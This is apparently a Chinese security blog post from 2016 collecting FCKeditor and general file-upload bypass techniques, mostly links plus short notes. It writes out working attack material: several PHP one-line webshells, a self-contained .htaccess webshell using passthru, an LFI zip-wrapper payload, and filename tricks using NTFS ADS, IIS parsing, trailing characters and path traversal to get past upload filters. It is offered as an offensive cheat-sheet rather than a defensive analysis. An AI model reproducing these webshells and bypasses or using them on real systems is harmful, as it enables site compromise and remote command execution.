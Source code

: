 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
    4>上传图片被resize等修改时,绕过方法: 
        a)利用上传前和上传后的文件对比找出没有变化的字符串,将其写payload
            http://www.freebuf.com/articles/web/54086.html
        b)老外的方法,比a)中的要好
            https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
        用法:x.php?0=system post data:1=whoami,上面链接中的payload见如下phppayload

<a href="https://www.idontplaydarts.com/images/phppng.png">phppayload</a>
<a href="https://raw.githubusercontent.com/3xp10it/pic/master/phppng.png">phppayload_bak_link</a>

    5>https://www.nds.rub.de/media/attachments/files/2012/11/File-in-the-hole.pdf
        多种上传技巧:
        a)将.htaccess本身作为webshell,解析本身.htaccess作为php
            http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html
            -----------------------自解析.htaccess--------------------------------
            # Self contained .htaccess web shell - Part of the htshell project
            # Written by Wireghoul - http://www.justanotherhacker.com

            # Override default deny rule to make .htaccess file accessible over web
            <Files ~ "^\.ht">
            Order allow,deny
            Allow from all
            </Files>

            # Make .htaccess file be interpreted as php file. This occur after apache has interpreted
            # the apache directoves from the .htaccess file
            AddType application/x-httpd-php .htaccess

            ###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
            -----------------------自解析.htaccess--------------------------------

        b)NTFS ADS
            1."file.asp::$data"=="file.asp"
            2."/folder:$i30:$Index_allocation"=="/folder"
            3.".htaccess:.jpg" -> make empty ".htaccess"=="HTACCESS~1"
                适用于.htaccess不让上传情况下,估计一般情况下都不让上传隐藏文件,这时通过burp将文件名名改成
                .htaccess:.jpg则可上传.htaccess文件
            4.通过文件上传来创建文件夹(windows下)
                https://www.youtube.com/v/Ws2JrZG679Q?version=3&hl=en_US&rel=0&vq=hd720
                detail:将文件名通过burp改成file::$Index_Allocation或者是file:$I30:$Index_Allocation,这样就会在服务器上新建file文件夹
        c)绕过../和..\保护:
            https://www.youtube.com/v/HjS6Pob5t34?version=3&hl=en_US&rel=0&vq=hd720
            ../改成.. /(..%20/)
            ..\改成.. \(..%20\)
        d)iis:
            file.asp;.jpg以asp解析
            /folder.asp/file.txt以asp解析
        e)文件名后有被忽略字符
            "test.asp . .. ." == "test.asp" 
            "test.php<>" == "test.php"
        f)在图片文件的文件属性中添加copyright属性为:
            <?=$_GET[0]($_POST[1]);?>
            这个暂时没有找到工具,好像要用photoshop
        g)"file.p.phphp"==>"file.php" 
        h)配置有误情况下:
            "/file.jpg/index.php"会将file.jpg按照php解析
        i)常见content-type"白名单":
            image/gif
            image/jpeg
            image/pjpeg
